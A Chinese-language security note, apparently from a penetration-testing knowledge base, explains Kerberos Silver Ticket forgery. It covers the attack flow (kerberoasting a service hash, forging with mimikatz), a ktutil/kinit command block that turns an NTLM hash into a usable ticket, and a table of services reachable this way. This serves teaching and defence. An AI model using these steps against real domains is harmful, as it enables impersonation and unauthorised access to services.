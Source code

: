 从需要发送的数据上看，当拥有 Server Hash 时，我们就可以伪造一个不经过 KDC 认证的一个 Ticket，这个也就是白银票据。

PS : Server Session Key 在未发送 Ticket 之前，服务器是不知道 Server Session Key 是什么的。 所以，一切凭据都来源于 Server Hash。

伪造的 `Client-To-Server Ticket`(也有唤作 ST 和 Service Ticket)被称为白银票据。在不与 KDC 通信情况下，通过获取 Server 端服务账号的 NTLM Hash 值，就能伪造该 Server 端服务的票据。不过在 TGT 中已包含了服务实例的唯一标识(SPN 服务)，白银票据就只能访问指定的服务。

**白银票据特点**

1. 不需要与 KDC 进行交互
2. 需要目标服务的 NTLM Hash
3. 从攻击面来看，伪造白银票据的难度比伪造黄金票据的难度较小，因为一个域中的服务器如果对外的话，非常容易被入侵，并且容易被转储 Server。
4. 从防御角度来看，需要开启 PAC 认证，但这会降低认证效率，增加 DC 的负担，最根本的还是要加固服务器本身对外的服务。
5. 因为需要目标机器的 Hash,并且也不是通过伪造 TGT 申请的,因此只能针对对应服务伪造票据(黄金票据直接伪造的是 TGT,而白金票据伪造的是 TGS 发送的票据,也就是说是单向车程)

**白银票据的攻击流程**

1. 获取服务端计算机的服务账号或者服务端计算机账号的 NTLM 哈希（如通过 kerberoast 获取）
2. 通过 mimikatz 的 kerberos::golden 传递域 SID、目标主机名、服务名称、伪造的用户名、等信息创建白银票据
3. 将票据注入到内存，并访问服务

- **mimikatz**

    mimikatz 的 Silver_Tickets 相关操作见 [mimikatz 笔记](../../安全工具/mimikatz.md#Silver_Tickets)

- **ktutil**
    ```bash
    ktutil                      # 使用 ktutil 创建一个 keytab 文件
    ktutil: addent -p uberuser@CORP.SOMEWHATREALNEWS.COM -k 1 -key -e rc4-hmac  # 指定用户和 FQDN 的全大写版本
    Key for uberuser@CORP.SOMEWHATREALNEWS.COM (hex): 88e4d9fabaecf3dec18dd80905521b29  # 输入 rc4-hmac（NTLM）哈希值
    ktutil: wkt /tmp/a.keytab   # 把 keytab 文件写到磁盘上
    ktutil: exit                # 退出
    kinit -V -k -t /tmp/a.keytab -f uberuser@CORP.SOMEWHATREALNEWS.COM  # 使用 keytab 文件创建一个 kerberos ticket
    klist                       # 验证
    ```

**other**

由于白银票据需要目标服务器的 Hash，所以没办法生成对应域内所有服务器的票据，也不能通过 TGT 申请。因此只能针对服务器上的某些服务去伪造，伪造的服务类型列表如下:

| 服务注释                                   |    服务名            |
| -                                         |   -                 |
| WMI 	                                    |   HOST、RPCSS       |
| Powershell Remoteing                      |	HOST、HTTP        |
| WinRM                                     |	HOST、HTTP        |
| Scheduled Tasks                           |	HOST              |
| LDAP 、DCSync                             |	LDAP              |
| Windows File Share (CIFS)                 |	CIFS              |
| Windows Remote ServerAdministration Tools |	RPCSS、LDAP、CIFS |
